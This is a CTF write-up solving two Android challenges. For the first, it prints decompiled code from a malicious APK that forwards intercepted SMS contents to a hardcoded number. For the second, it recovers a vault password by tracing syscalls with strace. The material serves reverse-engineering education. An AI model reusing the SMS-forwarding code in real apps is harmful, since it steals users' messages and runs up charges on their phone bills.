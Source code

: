 #ctf #strace #strings 
## Reverse That App
**Description**: We have intercepted a malicious Android binary, and we need your help analyzing the application! Reports from the wild say that this piece of malware is sending text messages to a premium number, resulting in a huge phone bill for the victims! This needs to stop… Can you identify the mobile number of the attacker so we can track him down? Answer in this format: `+XX XXX XXX XXX`

**Note**: For this challenge, we need install some things into our Android 5.1 device with Genymotion.
For example, an **ARM Translator**.
https://github.com/m9rco/Genymotion_ARM_Translation

Download **APK**: https://lautarovculic.com/my_files/Kbank.apk

![[reverseThatApp1.png]]

Install the **apk** with **adb**
```bash
adb install -r Kbank.apk
```

Then, let's decompile the **apk** with **apktool**
```bash
apktool d Kbank.apk
```

We can see this code with **jadx** (GUI version):
```java
package com.fake.site.sms;  
  
import android.telephony.SmsManager;  
import java.text.SimpleDateFormat;  
import java.util.ArrayList;  
  
/* loaded from: classes.dex */  
public class Sms {  
    public static final String NUMBER = "+79163525068";  
    private String mBody;  
    private String mSender;  
    private String mTimestamp;  
    private final boolean USE_NUMBER = true;  
    private final String[] BLACK_LIST = {""};  
    private final boolean USE_BLACK_LIST = false;  
    private final boolean NOT_ACCEPT_ALL_MESSAGE = true;  
  
    public Sms(String _body, String _sender, long _timestamp) {  
        this.mBody = _body;  
        this.mSender = _sender;  
        this.mTimestamp = new SimpleDateFormat("dd/MM/yyyy HH:mm:ss").format(Long.valueOf(_timestamp));  
    }  
  
    public boolean filterAll() {  
        return true;  
    }  
  
    public boolean filter() {  
        return false;  
    }  
  
    public String createMessage() {  
        String mesage = String.valueOf(this.mSender) + " " + this.mBody + " " + this.mTimestamp;  
        return mesage;  
    }  
  
    public void sendSms(String message) {  
        SmsManager smsManager = SmsManager.getDefault();  
        if (message.length() > 70) {  
            ArrayList<String> mArray = smsManager.divideMessage(message);  
            smsManager.sendMultipartTextMessage(NUMBER, null, mArray, null, null);  
        } else {  
            smsManager.sendTextMessage(NUMBER, null, message, null, null);  
        }  
    }  
}
```

And there is the **flag**: `+79163525068`

## Nviso Vault
**Description**: One of our programmers made a Vault that is used to store sensitive information. He says it’s safe, but come on, the application _must_ be leaking information somewhere… right?

**Note**: For this challenge, we need install some things into our Android 5.1 device with Genymotion.
For example, an **ARM Translator**.
https://github.com/m9rco/Genymotion_ARM_Translation

Download **APK**: https://lautarovculic.com/my_files/NvisoVault.apk

![[nvisoVault1.png]]

Install the **apk** with **adb**
```bash
adb install -r NvisoVault.apk
```

And then, decompile that with **apktool**
```bash
apktool d NvisoVault.apk
```

We can see that an algorithm is generated every second:
![[nvisoVault2.png]]

We can use **strace**.
But, what is **strace**?
**strace is a tool that allows you to track all system calls** (syscalls) made by a process on **Linux** or **Android**. This includes operations such as opening files, accessing networks, working with memory, among others. It is very useful for debugging applications, analyzing malware, or as in this case, understanding how an application interacts with the system to find possible flags or passwords.

For use **strace**, in this case, we need know the **PID** of the app before the **10 seconds**. So we need be **quickly**.
Enter to your **genymotion** device running
```bash
adb shell
```

Then, launch the **app** and get the **PID** (second column)
```bash
ps | grep vault
```
You must look an output like this:
```bash
130|root@vbox86p:/ # ps | grep vault
u0_a84    5060  3597  999340 54040 00000000 f7584055 S be.nviso.nvisovault
```
In this case, the **PID** is **5060**
Run strace **quick**
```bash
root@vbox86p:/ # strace -p 5060
```
Output:
```bash
Process 5060 attached
[...]
[...]
[...]
madvise(0xf3f1a000, 65536, MADV_DONTNEED) = 0
faccessat(AT_FDCWD, "Decoding data with password \342\200\230I_love_panda_bears\342\200\231", F_OK) = -1 ENOENT (No such file or directory)
clock_gettime(CLOCK_MONOTONIC, {1753, 899555810}) = 0
```

Search, and re-run the commands until you get the **flag**: `I_love_panda_bears`

I hope you found it useful (: